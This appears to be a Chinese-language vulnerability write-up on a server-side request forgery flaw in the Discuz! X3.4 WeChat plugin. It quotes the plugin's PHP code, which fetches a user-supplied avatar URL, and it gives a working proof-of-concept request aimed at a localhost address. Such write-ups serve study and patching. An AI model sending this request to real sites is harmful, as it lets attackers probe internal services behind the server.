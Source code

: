 # Discuz x3.4 Weixin Plugin ssrf

> 原文：[https://www.zhihuifly.com/t/topic/2874](https://www.zhihuifly.com/t/topic/2874)

# Discuz! X3.4 Weixin Plugin ssrf

## 一、漏洞简介

## 二、漏洞影响

Discuz! X3.4

## 三、复现过程

`source/plugin/wechat/wechat.class.php` `WeChat`类`syncAvatar`方法：

```
 static public function syncAvatar($uid, $avatar) {

```
 if(!$uid || !$avatar) {
        return false;
    }

    if(!$content = dfsockopen($avatar)) {
        return false;
    }

    $tmpFile = DISCUZ_ROOT.'./data/avatar/'.TIMESTAMP.random(6);
    file_put_contents($tmpFile, $content);

    if(!is_file($tmpFile)) {
        return false;
    }

    $result = uploadUcAvatar::upload($uid, $tmpFile);
    unlink($tmpFile);

    C::t('common_member')-&gt;update($uid, array('avatarstatus'=&gt;'1'));

    return $result;
} 
``` 
```

`source/plugin/wechat/wechat.inc.php` 中调用了`WeChat::syncAvatar`，直接用`$_GET['avatar']`作为参数传进去：

```
......

elseif(($ac == ‘register’ && submitcheck(‘submit’) || $ac == ‘wxregister’) && $_G[‘wechat’][‘setting’][‘wechat_allowregister’]) {

```
 ......

    $uid = WeChat::register($_GET['username'], $ac == 'wxregister');

    if($uid &amp;&amp; $_GET['avatar']) {
        WeChat::syncAvatar($uid, $_GET['avatar']);
    } 
``` `}` 
```

不过因为这里用到了微信登录的插件，所以要利用的话需要目标站开启微信登录：

![image](img/41828cc82eeded53ce109c60fa192880.png)

这里 SSRF 的构造很简单，直接在`avatar`参数构造 url 即可（只是注意`wxopenid`参数每次请求都要足够随机保证没有重复，如果重复的话代码是无法走到发起请求的逻辑的）：

### poc

```
http://target/plugin.php?id=wechat:wechat&ac=wxregister&username=vov&avatar=http://localhost:9090/dz-weixin-plugin-ssrf&wxopenid=dont_be_evil 
```

![image](img/b511b065a6c823682f017490b819f237.png)